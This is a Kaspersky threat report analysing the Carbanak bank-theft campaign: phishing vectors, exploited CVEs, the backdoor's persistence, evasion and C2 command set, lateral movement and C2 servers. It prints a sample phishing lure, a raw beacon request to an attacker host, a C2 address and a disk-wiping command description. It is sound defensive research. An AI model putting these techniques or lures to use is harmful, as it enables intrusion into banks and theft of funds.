








# CARBANAK APT THE GREAT BANK ROBB

KASPERSKYS

Version 2.1 February, 2015

#TheSAS2015 #Carbanak


# Table of contents

| 1. Executive Summary . |
| --- |
| 2. Analysis. |
| 2.1 Infection and Transmission |
| 2.2 Malware Analysis – Backdoor.Win32.Carbanak … |
| 2.3 Lateral movement tools . |
| 2.4 Command and Control (C2) Servers |
| 3. Conclusions . |
| APPENDIX 1: C2 protocol decoders |
| APPENDIX 2: BAT file to detect infection . |
| APPENDIX 3: IOC hosts |
| APPENDIX 4: Spear phishing . |
| APPENDIX 5: MD5 hashes of Carbanak samples . |

# 1. Executive Summary

From late 2013 onwards. several banks and financial institutions have been attacked by an unknown group of cybercriminals. In all these attacks, a similar modus operandi was used. According to victims and the law enforcement agencies (LEAs) involved in the investigation, this could result in cumulative losses of up to 1 billion USD. The attacks are still active.

This report provides a technical analysis of these attacks.

The motivation for the attackers. who are making use of techniques commonly seen in Advanced Persistent Threats (APTs), appears to be financial gain as opposed to espionage.

An analysis of the campaign has revealed that the initial infections were achieved using spear phishing emails that appeared to be legitimate banking communications, with Microsoft Word 97 - 2003 (.doc) and Control Panel Applet (.CPL) files attached. We believe that the attackers also redirected to exploit kits website traffic that related to financial activity.

The email attachments exploit vulnerabilities in Microsoft Office 2003, 2007 and 2010 (CVE-2012-0158 and CVE-2013-3906) and Microsoft Word (CVE-2014-1761). Once the vulnerability is successfully exploited, the shellcode decrypts and executes the backdoor known as Carbanak.

Carbanak is a remote backdoor (initially based on Carberp), designed for espionage, data exfiltration and to provide remote access to infected machines. Once access is achieved, attackers perform a manual reconnaissance of the victim's networks. Based on the results of this operation, the attackers use different lateral movement tools in order to get access to the critical systems in the victim´s infrastructure. They then install additional software such as the Ammyy Remote Administration Tool. or even compromise SSH servers. Notably. some of the latest versions of the analyzed Carbanak malware appear not to use any Carberp source code.

Once the attackers successfully compromise the victim´s network, the primary internal destinations are money processing services, Automated Teller Machines (ATM) and financial accounts. In some cases, the attackers used the Society for Worldwide Interbank Financial Telecommunication (SWIFT) network to transfer money to their accounts. In others, Oracle databases were manipulated to open payment or debit card accounts at the same bank or to transfer monev between

accounts using the online banking system. The ATM network was also used to dispense cash from certain ATMs at certain times where monev mules were ready to collect it.

As part of the attack´s reconnaissance phase, video recordings of the activities of bank employees, particularly system administrators, were made. The videos were sent to the C2 server.

Please note that the attackers abused the aforementioned services by impersonating legitimate local users who had the permissions to perform the actions later reproduced by the cybercriminals. As far as we know, none of the aforementioned services were attacked nor was any specific vulnerability within them exploited.

Of the 100 banking entities impacted at the time of writing this report, at least half have suffered financial losses. Most of the victims based in the geolocation of infected IPs are located in Russia, USA, Germany, China and Ukraine. That does not necessarily mean that all these victims are banking entities. The magnitude of the losses is significant. For example, one victim lost approximately $7,3 million (USD) due to ATM fraud; another suffered a $10 million (USD) loss due to the exploitation of its online banking platform.

Stolen funds were transferred out of the affected countries to bank accounts in the US and China. Additionally some of the C2 servers have log entries indicating connections to systems located in the US. Telemetry indicates that the attackers are expanding operations to other regions, such as Asia, the Middle-East. Africa and Europe.

This report discusses the attack vectors, infection mechanisms and toolkits used by the attackers to exploit the network after the initial infection, as well as the operational details and geographical distribution of this campaign.

# 2. Analysis

During the spring of 2014. Kaspersky Lab was involved in a forensic analysis of ATMs dispensing cash to people located near them but with no physical interaction according to security cameras. No malware was detected on these ATMs. However, Carberp-like malware was found on a computer that was connected to them via VPN.

Following the investigation of this incident, in the summer of 2014, Kaspersky Lab identified the same Carberp-like malware in another investigation involving a bank, where criminals were able to gain access to its online banking systems. In this investigation, we started analyzing all the computers in the bank's infrastructure in order to find the source of the infection. We found spear phishing emails with CPL files attached that, after a successful infection, install the same Carberp-like malware we had previously found in the case involving the ATMs.

There is evidence indicating that in most cases the network was compromised for between two to four months, and that many hundreds of computers within a single victim organization may have been infected. This period of time was used by the attackers to get access to the right victims and critical systems, and to learn how to operate their tools and systems to get the cash out.

Carbanak contains an espionage component that allows the attackers to take control of video capabilities on the victim systems. Thanks to this, long term observation and reconnaissance could be conducted. This allowed the attackers to understand the protocols and daily operational tempo of their targets. Based on this understanding, exploitation methodologies and mechanisms were developed and tailored to each victim.

### 2.1 Infection and Transmission

All observed cases used spear phishing emails with Microsoft Word 97 - 2003 (.doc) files attached or CPL files. The doc files exploit both Microsoft Office (CVE-2012-0158 and CVE-2013-3906) and Microsoft Word (CVE- 2014-1761).

There are indicators that point to a possible Chinese origin for the exploits used in these attachments. Command and Control (C2) servers located in China have been identified in this campaign. In addition, registration information for some of the domains use details of supposedly Chinese citizens. Obviously, all this could just be a red herring.

The targets were all employees affiliated to the affected institution. The spear phishing email messages appeared legitimate and in some cases were sent from compromised coworkers´ accounts. In this way compromised systems were used as a transmission vector.

Given that the victims were mostly Russian-speaking financial institutions, the names of the attachments we have identified were generally in Russian. Examples include "Соответствие ФЗ-115" and "Приглашение" which translate into "Accordance to Federal Law" and "Invitation" respectively. This is enough to induce a typical employee to open the attachment and execute the malware. For a complete list of file names see Appendix 4.

The following is an example of a Carbanak spear phishing email:

Добрый День! Высылаю Вам наши реквизиты Сумма депозита 32 000 000 руб 00 коп, сроком на 366 дней, , % в конце года, вклад срочный С Уважением, Сергей Кузнецов; + 7(953) 3413178 f205f@mail.ru

Translated:

```
Good Day!
I send you our contact details
 The amount of deposit 32 million rubles and 00 kopecks, for a period of 366
days,% year -- end contribution term
 Sincerely, Sergey Kuznetsov;
+ 7 (953) 3413178
f205f @ mail.ru
```
In this case, the attachment was a CPL file compressed using the Roshal Archive (.rar) format.

Once the remote code execution vulnerability is successfully exploited, it installs Carbanak on the victim's system. The complete list of observed spear phishing emails can be found in Appendix 1 – Spear phishing.

An additional infection vector that we believe was used by the criminals is a classical drive-by-download attack. We have found traces of the Null and the RedKit exploits kits.

### KASPERSKY:

| Страна | Bcero | УНИКИ | Заблокировано | Отозвано | Пробито ▼ |
| --- | --- | --- | --- | --- | --- |
| Switzerland | 783 | 782 | 0 | 0 | 31 |
| Germany | 170 | 170 | 0 | 0 | 12 |
| France | 128 | 157 | 0 | 0 | 9 |
| Unknown | 163 | 163 | 0 | 0 | 4 |
| Austria | 30 | 29 | 0 | 0 | 3 |
| United Kingdom | 16 | 15 | 1 | 0 | 2 |
| Italy | 27 | 27 | 0 | 0 | 2 |
| Europe | 14 | 13 | 1 | 0 | 1 |
| Senegal | 12 | 12 | 0 | 0 | 1 |
| Lithuania | 3 | 3 | 0 | 0 | 1 |
| Sweden | 4 | 3 | 0 | 0 | 1 |
| Bosnia and Herzegovina | 1 | 1 | 0 | 0 | 1 |
| Nigeria | 3 | 3 | 0 | 0 | 1 |
| China | 1 | 1 | 0 | 0 | 0 |

Figure 1. Null Exploit Kit – statistics on victims. found in one Carbanak C2

The image above translates as Country_name, All visitors, Unique visitors, Banned visitor, Revoked infections, Infected.

### 2.2 Malware Analysis – Backdoor.Win32.Carbanak

Carbanak is a backdoor used by the attackers to compromise the victim's machine once the exploit, either in the spear phishing email or exploit kit, successfully executes its payload. This section provides a functional analysis of Carbanak's capabilities.

Carbanak copies itself into "%system32%\com" with the name "svchost.exe" with the file attributes: system, hidden and read-only. The original file created by the exploit payload is then deleted.

To ensure that Carbanak has autorun privileges the malware creates a new service. The naming syntax is "<ServiceName>Sys" where ServiceName is any existing service randomly chosen, with the first character deleted. For example, if the existing service´s name is "aspnet" and the visible name is "Asp.net state service", the service created by the malware would be "aspnetSys" with a visible name of "Sp.net state service".

Before creating the malicious service. Carbanak determines if either the avp.exe or avpui.exe processes (components of Kaspersky Internet Security) is running. If found on the target system, Carbanak will try to exploit a known vulnerability in Windows XP, Windows Server 2003, Windows Vista, Windows Server 2008, Windows 7, Windows 8, and Windows Server 2012, CVE-2013-3660, for local privilege escalation. We believe this is not relevant and that the attackers adapt their tools to the victim´s defenses.

Carbanak creates a file with a random name and a .bin extension in %COMMON APPDATA%\Mozilla where it stores commands to be executed.

Then the malware gets the proxy configuration from the registry entry:

#### [HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings]

and the Mozilla Firefox configuration file in:

#### %AppData%\Mozilla\Firefox\<ProfileName>\prefs.js

#### How to detect Carbanak

One of the best methods for detecting Carbanak is to look for .bin files in the folder:

#### ..\All users\%AppData%\Mozilla\

The malware saves files in this location that will later be sent to the C2 server when an internet connection is detected.

A .BAT script for detecting infections is provided in the Appendixes.

Additionally, Carbanak can obtain proxy configuration information from headers sent through an application via SOCKS or HTTP.

Carbanak injects its code into svchost.exe. Most of the actions described below happen within this process.

Carbanak downloads the file kldconfig.plug from its C2 server. This file includes the names of the processes to be monitored.

Once the system is infected, Carbanak logs keystrokes and takes screenshots every 20 seconds. This monitoring is performed by intercepting the ResumeThread call.

#### KASPERSKY:

To enable connections to the infected computer using the Remote Desktop Protocol (RDP). Carbanak sets Termservice service execution mode to Auto. Also. after executing this service, it modifies the executable code in memory in order to establish simultaneous work processes for both remote and local users. Modules modified in this process are: termsrv.dll, csrsrv.dll, msgina.dll and winlogon.exe.

If Carbanak detects the banking application BLIZKO (funds transfer software) in the infected computer, it sends a special notification to its C2 server. Carbanak is also aware of the IFOBS banking application and can, on command, substitute the details of payment documents in the IFOBS system.

To communicate with its C2 server, Carbanak uses the HTTP protocol with RC2+Base64 encryption, adding additional characters not included in Base64. It also inserts strings with different extensions (.gif,.htm, etc.) at random locations in the HTTP request.

Example of a typical Carbanak request:

GET /cBAWFvkXi94QxShRTaVVn/YzAxD/X0sZEud.5gNltbvozl3tqT5ly9UYLVii13.bml?tlxCFiB usj=20Vj&9GP=a5houGz&K.F=T&l0.7FBN75=nMPDrlGXq4s7cIAQ0Cl662IwVjxvsiTOlG0d 0pd HTTP/1.1 Host: datsun -- auto.com

Carbanak sends its collected monitoring data to its C2 server. It also receives commands. The commands are compared with a hash table; if there is a match Carbanak performs the associated action:

| Hash | Command | Description |
| --- | --- | --- |
| 0AA37987 |  | Executes all commands stored in the configuration file. |
| 7AA8A5 | state | Sets malware state flag. |
| 7CFABF | video | Sends captured screen or process window video to C2. |
| 6E533C4 | download | Downloads and runs executable file from C2. Executable file is |
|  |  | stored in %TEMP% with a random name. |
| 684509 | ammyy | Downloads and run "Ammy Admin" remote control software and |
|  |  | adds it to the system´s firewall exclusion list. |
| 7C6A8A5 | update | Malware update. |
| 0B22A5A7 |  | Monitoring configuration update («klgconfig.plug»). |
| 0B77F949 |  | Unknown. |

| Hash | Command | Description |
| --- | --- | --- |
| 7203363 | killos | Kills the operating system through the following actions: |
|  |  | 1 - Puts in «ImagePath» registry [HKLM\SYSTEM\ControlSet001\ |
|  |  | services\ACPI], [HKLM\SYSTEM\ControlSet002\services\ACPI] |
|  |  | and [HKLM\SYSTEM\CurrentControlSet\services\ACPI] bad data. |
|  |  | 2- Writes bytes with value zero into the first 512 bytes of hardrive |
|  |  | «\\.\PHYSICALDRIVE0». |
|  |  | Then reboots. |
| 78B9664 | reboot | OS reboot. |
| 7BC54BC | tunnel | Creates network tunnel to specified network address, routing all |
|  |  | traffic there. |
| 7B40571 | adminka | Uses specified proxy settings. |
| 79C9CC2 | server | Changes C&C server. |
| 7C9C2 | user | Creates or deletes user. |
| 78B0 | rdp | Modifies "termsrv.dll", "csrsrv.dll, "msgina.dl" and "winlogon. |
|  |  | exe" modules. Modification allows multiple connections via RDP |
|  |  | protocol and makes RDP persistent. |
| 79BAC85 | secure | Loads and overwrites .dll responsible for passwords policy. New |
|  |  | .dll location points to «Notification Packages» [HKLM\ System\ |
|  |  | CurrentControlSet\Control\Lsa] registry key. |
| 6ABC | del | Deletes specified service or file. |
| 0A89AF94 |  | Executes specified command hash. |
| 79C53BD |  | Loads and executes file from specified network location. File |
|  |  | executes in memory and is not stored on the harddrive. |
| 0F4C3903 |  | Sends local user system password to C2. |
| OBC205E4 | screenshot | Creates and sends screenshots. |
| 7A2BC0 | sleep | Turns off malware activity for a specified period of time. |
| 6BC6C | dupl | Unknown. |
| 4ACAFC3 |  | Uploads specified file or directory. |
| 7D43 | vnc | Establish VNC session. |
| 9C4D055 |  | Unknown. |
| 2032914 |  | Unknown. |

In order to render the malware less suspicious, the latest Carbanak samples are digitally signed:

- 1. footprintcrsgn.dll
MD5 08F83D98B18D3DFF16C35A20E24ED49A

| ត | footprintcrsgn.dll Properties |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
| General | Digital Signatures Security | Details | Previous Versions |  |  |
|  | Digital Signature Details |  |  |  |  |
|  | General Advanced |  |  |  |  |
|  | Digital Signature Information This digital signature is OK. |  |  |  |  |
|  | Signer information |  |  |  |  |
|  | Name: | Bargaining active |  |  |  |
|  | E-mail: | pashulke67@gmail.com |  |  |  |
|  | Signing time: |  | Wednesday, September 03, 2014 12:58:30 |  |  |
|  |  |  |  | View Certificate |  |
|  | Countersignatures |  |  |  |  |
|  | Name of signer: | E-mail address: | Timestamp |  |  |
|  | COMODO Time S ... Not available |  | Wednesday, Septem ... |  |  |
|  |  |  |  | Details |  |
|  |  |  |  |  | OK |

Figure 2. Carbanak digital signature

- 2. PAExec_Move0.dat MD5 972092CBE7791D27FC9FF6E9ACC12CC3


Figure 3. Carbanak digital signature

One of Carbanak's lateral movement tools is also digitally signed:

- 3. PAExec-6980-PB-FS-01.ex_ MD5 86A5C466947A6A84554843D852478248

| PAExec-6980-PB-FS-01.ex_ | PAExec-6980-PB-F5-01.ex Properties |  |  | × |
| --- | --- | --- | --- | --- |
|  | General Digital Signatures | Security   Details | Previous Versions |  |
|  | Digital Signature Details |  |  | ? × |
|  | General Advanced |  |  |  |
|  |  | Digital Signature Information This digital signature is OK. |  |  |
|  | Signer information |  |  |  |
|  | Name: | Power Admin LLC |  |  |
|  | E-mail: | support@poweradmin.com |  |  |
|  | Signing time: | Wednesday, March 05, 2014 1:01:59 AM |  |  |
|  |  |  | View Certificate |  |
|  | Countersignatures |  |  |  |
|  | Name of signer: | E-mail address: | Timestamp |  |
|  | Symantec Time ... | Not available | Wednesday, March ... |  |
| FS-01.ex_ Date modified: 8/21/2014 6:09 PM Size: 184 KB |  |  | Details |  |
|  |  |  |  | OK |

Figure 4. Carbanak lateral movement tool digital signature

#### Geographical Distribution

Known samples of Carbanak have been uploaded to VirusTotal from the following locations:



Figure 5. Countries from which Carbanak has been uploaded

 Known exploits that download Carbanak have been uploaded to VirusTotal mostly from Russia.



According to KSN data, victims are distributed geographically as follows:

Figure 6. Geographical distribution of victims according to KSN data

The analyzed Carbanak samples, excluding some obvious outliers, have the following compilation time distribution:



Figure 7. Carbanak compilation timestamp distribution

It is also very interesting to see the distribution of Carbanak submissions to VirusTotal. This way we can identify periods when the malware came to the attention of potential victims and security researchers, and helps to reveal peaks in the group's activity:



Figure 8. Distribution of Carbanak submissions to VirusTotal

Since the beginning of this case, Kaspersky Lab has worked in cooperation with the LEAs investigating it. During the investigation LEAs shared with us statistical data from their research that helped us to complete our picture of the campaign.

The following map shows targets' IP addresses found in three of Carbanak's Linux servers at the end of October 2014:



Figure 9. Geographical distribution of targets according to C2 data

### KASPERSKY:



Figure 10. Geographical distribution of victims according to C2 data

### 2.3 Lateral movement tools

Carbanak uses different tools on infected systems, each one with a different purpose. There appears to be a preference for the Ammyy Admin remote administration tool for remote control. Specifically, the attackers have been detected uploading:

#### Ammyy Admin 3.5 (f8cd52b70a11a1fb3f29c6f89ff971ec) as svchost.exe

It is believed that the attackers used this remote administration tool because it is commonly whitelisted in the victims' environments as a result of being used regularly by administrators.

In another instance, a Secure Shell (SSH) backdoor was used to communicate with the C2 server in 190.97.165.126 (operatemesscont.net).

This indicates that the attackers did not limit themselves to Microsoft Windows environments. In this case, the victim used the Telnet/SSH client PuTTY to connect to the server, and the attackers recompiled the machine's SSH daemon with a backdoor so they could gain direct access.

Logs for these tools indicate that thev were accessed from two different IPs. probably used by the attackers, and located in Ukraine and France.

We have also found traces of many different tools used by the attackers inside the victim´s network to gain control of additional systems, such as Metasploit, PsExec or Mimikatz.

## 2.4 Command and Control (C2) Servers

There appear to be four distinct types of C2 servers:

- Linux servers used for issuing commands to deployed Carbanak instances ● and for receiving collected monitoring data;
- Windows servers used for remote connections to victim systems;
- Backup servers; and
- . Drop servers where additional executable files (e.g. remote administration tools) are hosted.

Server rotation occurs more or less on a biweekly basis. For a complete list of identified Carbanak servers please check the regularly updated Carbanak IOC document. The current list of IOCs is provided at Appendix 3 in his document.

Some of these C2 servers are responsible for dropping Ammyv (configuration and executable files), the KLG plugin configuration (list of processes to monitor) and the VNC server (both 32 and 64 bits to be injected in rundll). In one of the observed servers there was also a Metasploit module.

| ● = (2) == ) |  |  |  |  |  |  |  |  | V C S Google |  |  | a a Bo |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
|  | Antivirus Check |  |  |  |  |  |  |  | 2014.09.18 12:04:21 |  | 45 - |  |
|  | 科 청 Home Bots | E Reports | ★ Plugins | 을 Users Notes | િ | 4 AV | 2 Settings |  |  |  |  |  |
|  | Add new object for AV Check |  |  |  |  |  | of Settings Keylogger Q Tasks |  |  |  |  |  |
|  | Show 10 | ה |  |  |  |  | Ø Ban |  |  |  | Search |  |
|  | entries |  |  |  |  |  |  |  |  |  |  |  |
|  | Id | Name |  | Last check |  |  |  | Last check time |  | Delete |  |  |
|  | 15 | kill.plug |  | Viruscheckmate error |  |  |  | 2014.09.18 10:34:06 |  | × |  |  |
|  | 16 | vnc.dll |  | Viruscheckmate error |  |  |  | 2014.09.18 10:34:06 |  | × |  |  |
|  | 17 | vnc64.plug |  | Viruscheckmate error |  |  |  | 2014.09.18 10:34:06 |  | × |  |  |
|  | 18 | vnc.plug |  | Viruscheckmate error |  |  |  | 2014.09.18 10:34:06 |  | × |  |  |
|  | 19 | ammyy plug |  | Viruscheckmate error |  |  |  | 2014.09.18 10:34:06 |  | × |  |  |
|  | 20 | 03.plug |  | Viruscheckmate error |  |  |  | 2014.09.18 10:34:06 |  | × |  |  |
|  | Showing 1 to 6 of 6 entries |  |  |  |  |  |  |  |  | Previous 1 | Next |  |

Figure 11. Carbanak administration panel running in Linux

| ● ■ LIFERA |  |  |  |  | 0v @ | S & Google a S DV |
| --- | --- | --- | --- | --- | --- | --- |
|  | 10 | T |  |  |  | ি |
|  | entries |  |  |  |  |  |
|  | Id | Name | Size (bytes) | Updated | Operations | Delete |
|  | 24 | klgconfig.plug | 21 | 2014.08.27 05:48:13 | 2 8 | × |
|  | 26 | kill plug | 3072 | 2014.06.06 02:08:43 | 2 8 | × |
|  | 36 | vnc.dll | 150016 | 2014.06.18 00:56:41 | 2 C | × |
|  | 38 | vnc64.plug | 188416 | 2014.06.28 05:08:25 | 2 8 | x |
|  | 39 | vnc.plug | 150016 | 2014.06.28 06:08:50 | 2 8 | × |
|  | 59 | ammyy plug | 396848 | 2014.08.08 14:51:17 | 2 8 | × |
|  | 66 | met64.plug | 38400 | 2014.08.22 10:34:17 | 2 6 | × |
|  | 81 | 15.plug | 184320 | 2014.09.16 05:11:06 | 2 8 | × |
|  | 82 | 16.plug | 196608 | 2014.09.16 14:03:15 | 2 8 | × |
|  | 83 | 18.plug | 196608 | 2014.09.18 03:07:55 | 2 8 | × |
|  | Showing 1 to 10 of 10 entries |  |  |  |  | Previous 1 Next |

Figure 12. Carbanak administration panel running in Linux, list of plugins

| Бэкконект сервер |  |  |  |  |  |  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| Фильтры: ID: |  | IP: |  |  |  |  |  |  |  | Активных ботов: | 0 |
| ID |  |  | Инфо |  |  |  | Комментарий |  |  | Проброшенные порты |  |
| く |  |  |  | 111 |  |  |  |  |  |  | > |
